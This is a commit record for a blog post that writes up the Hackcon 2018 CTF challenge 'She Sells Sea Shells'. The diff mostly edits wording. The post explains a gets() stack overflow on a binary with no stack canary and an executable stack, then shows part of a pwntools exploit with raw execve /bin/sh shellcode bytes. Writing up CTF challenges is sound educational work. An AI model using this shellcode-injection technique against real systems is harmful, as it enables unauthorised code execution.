

Before and after one commit to Maff1t/Maff1t.github.io, a Jekyll site: the page built from _posts/2018-08-17-Hackcon-2018-She-Sells-Sea-Shells.md, in a window 1280 px wide and 1400 px high, scrolled down 317 px. Shown: the whole window at 99% size, without its empty margins (203-1076 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
New write-up Hackcon2018

````diff
--- a/_posts/2018-08-17-Hackcon-2018-She-Sells-Sea-Shells.md
+++ b/_posts/2018-08-17-Hackcon-2018-She-Sells-Sea-Shells.md
@@ -19,11 +19,11 @@ Welcome.
 I have a small gift for you (no strings attached) 0x7ffcfd9a7b60
 
 ```
-Ok then what is the "small gift" that the program is giving us?
-Let's open it in radare and this is the main function:
+The first question is: what is the "small gift" that the program is giving us?
+Let's open it in radare and try to figure it out:
 
 ```code
-|	    |           0x00400676      55             push rbp
+|	        0x00400676      55             push rbp
 |           0x00400677      4889e5         mov rbp, rsp                                                                                                          |           0x0040067a      4883ec50       sub rsp, 0x50               ; 'P'
 |           0x0040067e      897dbc         mov dword [local_44h], edi    ; arg1                                                                                  |           0x00400681      488975b0       mov qword [local_50h], rsi    ; arg2
 |           0x00400685      bf88074000     mov edi, str.Welcome.       ; 0x400788 ; "Welcome.\n"                                                                 |           0x0040068a      e891feffff     call sym.imp.puts           ;[2] ; int puts(const char *s)
@@ -44,16 +44,16 @@ Let's open it in radare and this is the main function:
 
 ```
 
-Ok, we can see that the address of the buffer (local_40h) is placed in rax. We can notice that it use the
-"lea" instruction instead of MOV, because it want to "Load Effective Address" of the buffer.
-Than it move rax in rsi as second parameter for the printf, as the x64 calling convetion want (first parameter in rdi , then rsi, rdx, rcx and so on).
+Ok, we can see that at 0x0040068f the address of the buffer (local_40h) is placed in rax. Notice that it uses the
+"LEA" instruction instead of MOV, because it wants to "Load Effective Address" of the buffer in the register.
+Than it moves rax in rsi as second parameter of the printf function, as the x64 calling convetion wants (first parameter in rdi , then rsi, rdx, rcx and so on).
 
-After that, it request, as the other challenges, an input that is managed using the gets () function, without the lenght control.
+After that, it requests, as the other challenges, an input that is managed using the gets () function, without the lenght control.
 
-Than we can control the Return address because there are no canaries on the stack. Moreover the NX bit is 0, then the stack is executable.
-It means that if we place a shellcode in the stack and redirect the program to that address (that "casually" is given by the program), it can be executed.
+Then we can control the return address because there are no canaries on the stack. Moreover the NX bit is 0, then the stack is executable.
+It means that if we place a shellcode in the stack and redirect the program to that address (that "casually" is given by the program), the code will be executed.
 
-Now we have all to write the exploit, and this time I used PwnTools to send the exploit to the remote server:
+Now we have everything to write the exploit, and this time I used PwnTools to help me in the communication with the remote server:
 
 ```code
 from pwn import *
@@ -73,8 +73,6 @@ mov al, 59
 syscall
 
 '''
-ELF('./bof')
-#shellcode = asm(shellcraft.sh())
 shellcode = "\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"
 
 log.info ("Shellcode len %d bytes", len(shellcode))
````
Also changed, not shown: other parts of _posts/2018-08-17-Hackcon-2018-She-Sells-Sea-Shells.md (+0 -2 lines).
